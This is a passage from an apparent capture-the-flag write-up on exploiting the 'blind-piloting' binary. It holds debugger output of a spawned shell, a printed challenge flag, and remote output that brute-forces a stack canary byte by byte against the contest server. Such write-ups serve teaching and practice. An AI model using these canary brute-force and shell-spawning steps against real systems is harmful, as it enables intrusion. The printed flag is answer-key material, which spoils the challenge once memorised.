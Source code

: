 ```
p.sendline(payload)
```

The left pane should report a shell is running:

```
gef➤  c
Continuing.
[Attaching after process 6079 fork to child process 7383]
[New inferior 5 (process 7383)]
[Detaching after fork from parent process 6079]
[Inferior 4 (process 6079) detached]
[Attaching after process 7383 vfork to child process 7384]
[New inferior 6 (process 7384)]
[Detaching vfork parent process 7383 after child exec]
[Inferior 5 (process 7383) detached]
process 7384 is executing new program: /usr/bin/dash
[Attaching after process 7384 fork to child process 7385]
[New inferior 7 (process 7385)]
[Detaching after fork from parent process 7384]
[Inferior 6 (process 7384) detached]
process 7385 is executing new program: /usr/bin/dash
```

Got shell.

In the right pane type: `p.interactive()`

```
>>> p.interactive()
[*] Switching to interactive mode
```


#### Get the flag

Type `cat flag2.txt`:

```
pctf{Eh_2_brute_Brut3_BRUT3!}
```

ctrl-d when done.


### Remote output:

Change: `#!/usr/bin/env -S python3 -i` to `#!/usr/bin/env python3` if you like.

```
[+] Opening connection to pwn.ctf.b01lers.com on port 1007: Done
[*] '/pwd/datajerk/b01lersctf/blind-piloting/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
b'008d'
b'008df2'
b'008df267'
b'008df267d6'
b'008df267d651'
b'008df267d651bd'
b'008df267d651bd38'
HAVE CANARY
0x9f0
0x19f0
0x29f0
0x39f0
0x49f0
```